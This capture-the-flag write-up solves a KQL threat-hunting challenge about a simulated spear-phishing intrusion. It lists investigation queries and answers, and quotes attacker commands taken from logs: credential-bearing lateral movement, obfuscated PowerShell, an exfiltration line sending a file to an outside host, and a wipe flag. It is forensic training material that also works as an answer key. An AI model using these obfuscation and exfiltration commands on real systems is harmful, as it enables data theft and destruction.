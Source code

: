# Objective 13: KQL Kraken Hunt
**Location: Film Noir Island: Gumshoe Alley PI Office**  
**Hints provided by Tangle Coalbox**

The aim of this objective is to get familiar with the Kusto platform and the KQL language, which is in total similar to Splunk.

### Onboarding:  
How many Craftperson Elf’s are working from laptops?

`Employees | where role=="Craftsperson Elf" | where hostname contains "LAPTOP"`

**25**

### Case 1:  
What is the email address of the employee who received this phishing email?

OutboundNetworkEvents | where url=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | join (Employees) on $left.src_ip==$right.ip_addr | project email_addr

alabaster_snowball@santaworkshopgeeseislands.org

  

  

What is the email address that was used to send this spear phishing email?

Email | where recipient=="alabaster_snowball@santaworkshopgeeseislands.org" | where link=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project sender

cwombley@gmail.com

  

  

  

What was the subject line used in the spear phishing email?

Email | where recipient=="alabaster_snowball@santaworkshopgeeseislands.org" | where link=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project subject

[EXTERNAL] Invoice foir reindeer food past due

  

### Case 2:

What is the role of our victim in the organization?

Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project role

Head Elf

  

What is the hostname of the victim's machine?

Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname

Y1US-DESKTOP

  

What is the source IP linked to the victim?

Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project ip_addr

10.10.0.4

  

### Case 3:

What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs!

`OutboundNetworkEvents | where url=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project timestamp`

**2023-12-02T10:12:42Z**

  

What file is dropped to Alabaster's machine shortly after he downloads the malicious file?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join FileCreationEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project filename`

**giftwrap.exe**

  

  

### Case 4:  
The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project process_commandline`

**113.37.9.17**

  

What is the timestamp when the attackers enumerated network shares on the machine?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project timestamp,process_commandline`

**2023-12-02T16:51:44Z → net share

  

What was the hostname of the system the attacker moved laterally to?

NorthPolefileshare ("process_commandline": cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123)

  

### Case 5:

  

When was the attacker's first base64 encoded PowerShell command executed on Alabaster's machine?

Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | where process_commandline contains "PowerShell" | project timestamp,process_commandline

2023-12-24T16:07:47Z

  

What was the name of the file the attacker copied from the fileshare? (This might require some additional decoding)

(2023-12-24T16:07:47Z)

( 'txt.tsiLeciNythguaN\potkseD\:C txt.tsiLeciNythguaN\lacitirCnoissiM\$c\erahselifeloPhtroN\\ metI-ypoC c- exe.llehsrewop' -split '' | %{$_[0]}) -join ''

echo txt.tsiLeciNythguaN | rev

NaughtyNiceList.txt

  

The attacker has likely exfiltrated data from the file share. What domain name was the data exfiltrated to?

(2023-12-24T16:58:43Z)

base64 decoded:  
[StRiNg]::JoIn( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))|& ((gv '*Mdr*').NamE[3,11,2]-joiN

downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\file

  

  

### Case 6:

What is the name of the executable the attackers used in the final malicious command?

Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | where process_commandline contains "PowerShell" | project timestamp,process_commandline

(2023-12-25T10:44:27Z)

downwithsanta.exe

  

What was the command line flag used alongside this executable?

--wipeall

  

  

→

`print base64_decode_tostring('QmV3YXJlIHRoZSBDdWJlIHRoYXQgV29tYmxlcw==')`

Beware the Cube that Wombles

**Achievement: KQL Kraken Hunt**
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTc2NjI2NTk2OSwtMjAxMDE5MjYzXX0=
-->